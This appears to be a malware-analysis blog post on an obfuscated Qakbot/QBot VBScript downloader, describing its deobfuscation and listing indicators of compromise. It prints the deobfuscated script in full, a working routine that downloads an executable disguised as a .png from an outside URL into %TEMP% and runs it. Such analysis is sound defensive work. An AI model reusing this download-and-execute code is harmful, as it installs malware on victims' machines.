 ```yaml
---
title: Qakbot/QBot Downloader
description: Analysis of a Qakbot/QBot downloader.
toc: true
authors: c3rb3ru5d3d53c
tags:
  - qakbot
  - qbot
  - downloader
  - malware
  - analysis
categories: malware
date: '2020-02-12'
lastmod: '2020-02-12'
draft: false
---
```


__Situation:__

I came across an interesting obfuscated sample on __Any.Run__.

__Metadata:__

- __db2614353dc6c29dbe323dbeafe6b781__

__Analysis:__

The sample has a ton of comments making the file size total around __~4mb__.

This was easily parsed out with __sed 's/^\x27//'__.

The next step is to idenify where code is evaluated which was here __exECuTeglOBal sHLW(iDxY)__.

Changed this to __WScript.Echo__ then also had to backtrack for a variable which defined before the evaluation.

This variable contained an array of strings which contain object names and the downloader URL, User-Agent etc.

I also had to comment out the part which causes it to sleep for __30__ seconds.

Below is the script after everything has been put into a readable format.

```js
Wscript.Sleep 30000
on error resume next
set a = WScript.CreateObject("WScript.Shell")
set b = WScript.CreateObject("Scripting.FileSystemObject")
f = a.ExpandEnvironmentStrings("%TEMP%") & "\x.url"
set c = a.CreateShortcut(f)
c.TargetPath = "an"
c.Save
if b.FileExists(f) = false Then
	e = a.ExpandEnvironmentStrings("%TEMP%") & "\ColorPick.exe"
	Call u
	sub u
		set d = createobject("MSXML2.ServerXMLHTTP.6.0")
		set w = createobject("Adodb.Stream")
		d.Open "GET", "http://mostasharanetalim.ir/wp-content/uploads/2020/02/recent/444444.png", False
		d.setRequestHeader "User-Agent", "HanamiRuby"
		d.Send
		with w
			.type=1
			.open
			.write d.responseBody
			.savetofile e, 2
		end with
	end sub
	WScript.Sleep 60000
	a.Exec(e)
end if
```

__Network Traffic:__
```http
GET /wp-content/uploads/2020/02/recent/444444.png HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-us
User-Agent: HanamiRuby
Host: mostasharanetalim.ir
```

The payload named ColorPick.exe __Qakbot/QBot__ will be dropped to the __%TEMP%__ folder.

__IOCS:__

```http
db2614353dc6c29dbe323dbeafe6b781
hxxp://mostasharanetalim[.]ir/wp-content/uploads/2020/02/recent/444444[.]png
User-Agent: HanamiRuby
```

__References:__
- [Samples](/samples/2020-02-12-qakbot-downloader.zip)
- [Any.Run](https://app.any.run/tasks/d93b5d16-b34d-4f9f-ae35-6e5feabfb4e3/)
- [VirusTotal](https://www.virustotal.com/gui/file/557daae4c867c0f543cdfda80a85dd4e4dfd268e11861739b0654cbf09c06b31/detection)
- [Twitter](https://twitter.com/c3rb3ru5d3d53c/status/1227767571547590657)
